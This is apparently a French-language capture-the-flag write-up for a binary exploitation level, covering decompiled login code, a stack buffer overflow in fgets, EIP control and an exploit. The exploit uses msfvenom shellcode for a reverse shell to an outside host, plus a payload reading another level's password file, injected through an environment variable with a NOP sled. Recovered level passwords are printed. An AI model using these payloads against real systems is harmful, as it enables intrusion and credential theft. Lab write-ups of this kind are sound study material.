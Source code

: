 ```
level01:uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL
```

![](Pasted%20image%2020240806234223.png)

![](Pasted%20image%2020240806234620.png)

```c
undefined4 main(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  undefined4 local_54 [16];
  int local_14;
  
  puVar3 = local_54;
  for (iVar2 = 16; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + 1;
  }
  local_14 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(&a_user_name,256,stdin);
  local_14 = verify_user_name();
  if (local_14 == 0) {
    puts("Enter Password: ");
    fgets((char *)local_54,100,stdin);
    local_14 = verify_user_pass((byte *)local_54);
    if ((local_14 == 0) || (local_14 != 0)) {
      puts("nope, incorrect password...\n");
      uVar1 = 1;
    }
    else {
      uVar1 = 0;
    }
  }
  else {
    puts("nope, incorrect username...\n");
    uVar1 = 1;
  }
  return uVar1;
}
```

on voit 2 fonction verify_user_name et verify_user_pass

```c
int verify_user_name(void)

{
  int iVar1;
  byte *pbVar2;
  byte *pbVar3;
  undefined uVar4;
  undefined uVar5;
  byte bVar6;
  
  bVar6 = 0;
  uVar4 = &stack0xfffffff4 < (undefined *)16;
  uVar5 = &stack0x00000000 == (undefined *)28;
  puts("verifying username....\n");
  iVar1 = 7;
  pbVar2 = &a_user_name;
  pbVar3 = (byte *)"dat_wil";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    uVar4 = *pbVar2 < *pbVar3;
    uVar5 = *pbVar2 == *pbVar3;
    pbVar2 = pbVar2 + (uint)bVar6 * -2 + 1;
    pbVar3 = pbVar3 + (uint)bVar6 * -2 + 1;
  } while ((bool)uVar5);
  return (int)(char)((!(bool)uVar4 && !(bool)uVar5) - uVar4);
}

```

```c
int verify_user_pass(byte *param_1)

{
  int iVar1;
  byte *pbVar2;
  undefined in_CF;
  undefined in_ZF;
  
  iVar1 = 5;
  pbVar2 = (byte *)"admin";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    in_CF = *param_1 < *pbVar2;
    in_ZF = *param_1 == *pbVar2;
    param_1 = param_1 + 1;
    pbVar2 = pbVar2 + 1;
  } while ((bool)in_ZF);
  return (int)(char)((!(bool)in_CF && !(bool)in_ZF) - in_CF);
}
```

on peut voir un buffer over flow potentiel dans le fgets de la ligne 23

# calcul de loffset

![](Pasted%20image%2020240807000202.png)

![](Pasted%20image%2020240807000145.png)

# control de l'EPI

![](Pasted%20image%2020240807000434.png)

on a controle corectement l'eip avec un chunk de 80

# shellcode 

```
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.121.1 LPORT=8877 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f" PrependSetuid=True
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 102 (iteration=0)
x86/shikata_ga_nai chosen with final size 102
Payload size: 102 bytes
Final size of py file: 518 bytes
buf =  b""
buf += b"\xba\x4c\x17\xe5\x96\xd9\xcb\xd9\x74\x24\xf4\x5b"
buf += b"\x31\xc9\xb1\x13\x31\x53\x15\x03\x53\x15\x83\xeb"
buf += b"\xfc\xe2\xb9\x26\x3e\xfc\x56\x11\x0d\x81\x69\x7a"
buf += b"\x7a\x61\xda\x3f\xd6\x0c\xde\x36\x39\x60\xb8\x85"
buf += b"\x3a\x12\x1d\xa6\x04\xd8\x1d\x8f\x03\x1b\x75\xd0"
buf += b"\x5c\xa2\x84\xb8\x9e\x55\xa4\x95\x16\xb4\x18\x83"
buf += b"\x78\x66\x0b\xff\x7a\x01\x4a\x32\xfc\x43\xe4\xa3"
buf += b"\xd2\x10\x9c\x53\x02\xf8\x3e\xcd\xd5\xe5\xec\x5e"
buf += b"\x6f\x08\xa0\x6a\xa2\x4b"

"\xba\x4c\x17\xe5\x96\xd9\xcb\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x13\x31\x53\x15\x03\x53\x15\x83\xeb\xfc\xe2\xb9\x26\x3e\xfc\x56\x11\x0d\x81\x69\x7a\x7a\x61\xda\x3f\xd6\x0c\xde\x36\x39\x60\xb8\x85\x3a\x12\x1d\xa6\x04\xd8\x1d\x8f\x03\x1b\x75\xd0\x5c\xa2\x84\xb8\x9e\x55\xa4\x95\x16\xb4\x18\x83\x78\x66\x0b\xff\x7a\x01\x4a\x32\xfc\x43\xe4\xa3\xd2\x10\x9c\x53\x02\xf8\x3e\xcd\xd5\xe5\xec\x5e\x6f\x08\xa0\x6a\xa2\x4b"
```

# env EVIL

```
export EVIL=`python -c 'print "\x90" * 525 + "\xba\x4c\x17\xe5\x96\xd9\xcb\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x13\x31\x53\x15\x03\x53\x15\x83\xeb\xfc\xe2\xb9\x26\x3e\xfc\x56\x11\x0d\x81\x69\x7a\x7a\x61\xda\x3f\xd6\x0c\xde\x36\x39\x60\xb8\x85\x3a\x12\x1d\xa6\x04\xd8\x1d\x8f\x03\x1b\x75\xd0\x5c\xa2\x84\xb8\x9e\x55\xa4\x95\x16\xb4\x18\x83\x78\x66\x0b\xff\x7a\x01\x4a\x32\xfc\x43\xe4\xa3\xd2\x10\x9c\x53\x02\xf8\x3e\xcd\xd5\xe5\xec\x5e\x6f\x08\xa0\x6a\xa2\x4b"'`
```

# find EVIL address

```
b *main
r
x/s *((char **)environ+3)
```

![](Pasted%20image%2020240808034403.png)

nous allons voir comment cette variable occue la memoire
```
x/150xg 0xffffd69c
```

on voit bien notre champ de nop on a plus qua sauter dedans avec l'overflow
# exploit 

```
(python -c '''
user = "dat_wil"
padding = "A" * (256 - len(user) + 80)
print(user + padding + "\xff\xff\xd6\xcc"[::-1])
''') | ./level01
```

![](Pasted%20image%2020240808034757.png)

comme on peut le vvoir l'overflow a echouer avec un offset de 80, j'ai essayer avec un de 79 et on a bien le reverseshell qui a triger par contre on a pas l'impersonisation du  suid

```
❯ msfvenom -p linux/x86/exec CMD="/bin/cat /home/users/level02/.pass" –e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f" PrependSetuid=True -f py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 104 (iteration=0)
x86/shikata_ga_nai chosen with final size 104
Payload size: 104 bytes
Final size of py file: 526 bytes
buf =  b""
buf += b"\xd9\xe8\xd9\x74\x24\xf4\xbe\x57\x98\xab\xc3\x58"
buf += b"\x31\xc9\xb1\x14\x31\x70\x18\x03\x70\x18\x83\xc0"
buf += b"\x53\x7a\x5e\xf2\x80\x10\xb6\xad\xfb\x65\xd2\x46"
buf += b"\x5b\xff\x71\x3f\x33\xd2\x16\x36\x24\x44\xf6\x3b"
buf += b"\xc2\x95\x60\x93\x70\xff\x1e\x62\x97\xad\x36\x57"
buf += b"\x57\x52\xc7\xb7\x35\x3b\xa9\xe8\xda\xda\x41\xd7"
buf += b"\x33\x75\xc5\x7a\x2e\xaa\x6c\xf6\xd5\xc6\xfd\xd7"
buf += b"\x79\x42\x74\x4d\xed\xbc\x4a\xa2\xc3\xcc\xcb\xcf"
buf += b"\x68\x2d\x5b\x63\x07\xcc\xae\x03"

export EVIL=`python -c 'print "\x90" * 525 + "\xd9\xe8\xd9\x74\x24\xf4\xbe\x57\x98\xab\xc3\x58\x31\xc9\xb1\x14\x31\x70\x18\x03\x70\x18\x83\xc0\x53\x7a\x5e\xf2\x80\x10\xb6\xad\xfb\x65\xd2\x46\x5b\xff\x71\x3f\x33\xd2\x16\x36\x24\x44\xf6\x3b\xc2\x95\x60\x93\x70\xff\x1e\x62\x97\xad\x36\x57\x57\x52\xc7\xb7\x35\x3b\xa9\xe8\xda\xda\x41\xd7\x33\x75\xc5\x7a\x2e\xaa\x6c\xf6\xd5\xc6\xfd\xd7\x79\x42\x74\x4d\xed\xbc\x4a\xa2\xc3\xcc\xcb\xcf\x68\x2d\x5b\x63\x07\xcc\xae\x03"'`

0xffffd71a

(python -c '''
user = "dat_wil"
padding = "A" * (256 - len(user) + 79)
print(user + padding + "\xff\xff\xd7\x1a"[::-1])
''') | ./level01

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

![](Pasted%20image%2020240808042810.png)

```
level02 : PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```